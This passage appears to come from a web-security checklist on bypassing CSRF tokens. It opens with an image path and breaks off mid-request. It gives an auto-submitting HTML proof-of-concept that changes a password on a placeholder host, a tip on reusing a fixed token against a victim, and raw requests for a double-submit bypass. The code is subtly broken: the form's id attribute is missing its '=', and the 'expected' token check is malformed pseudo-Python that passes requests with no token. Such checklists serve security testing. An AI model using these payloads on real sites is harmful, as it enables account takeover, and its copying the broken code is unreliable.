     ```html
    POST /password_change
    Host: email.example.com
    Cookie: session_cookie=YOUR_SESSION_COOKIE
    (POST request body)
    new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
    ----------------------------------
    <html>
     <form method="POST" action="<https://email.example.com/password_change>" id"csrf-form">
     <input type="text" name="new_password" value="abc123">
     <input type="text" name="csrf_token" value="871caef0757a4ac9691aceb9aad8b65b ">
     <input type='submit' value="Submit">
    </form>
     <script>document.getElementById("csrf-form").submit();</script>
    </html>
    --------------------------------------------------------------
    ## Expected Code
    def validate_token():
     if request.csrf_token:
    	 if (request.csrf_token in valid_csrf_tokens):
    			 pass
    	 else:
    		 throw_error("CSRF token incorrect. Request rejected.")
    [...]
    def process_state_changing_action():
     	 validate_token()
    	 execute_action()
    ------------------------------------------------------------------------
    # Exploit 
    If the token is fixed value for the account then change the email to victim's email and make CSRF poc
    with the old CSRF token from old requests
    ```
*   [ ] **Bypass Double submit CSRF tokens**

    ```python
    # Valid 
    POST /password_change
    Host: email.example.com
    Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=871caef0757a4ac9691aceb9aad8b65b
    (POST request body)
    new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
    --------------------------
    # Invalid
    POST /password_change
    Host: email.example.com
    Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=1aceb9aad8b65b871caef0757a4ac969
    (POST request body)
    new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
    ---------------------------------------
    # Bypass 
    POST /password_change
    Host: email.example.com
    Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token
    (POST request body)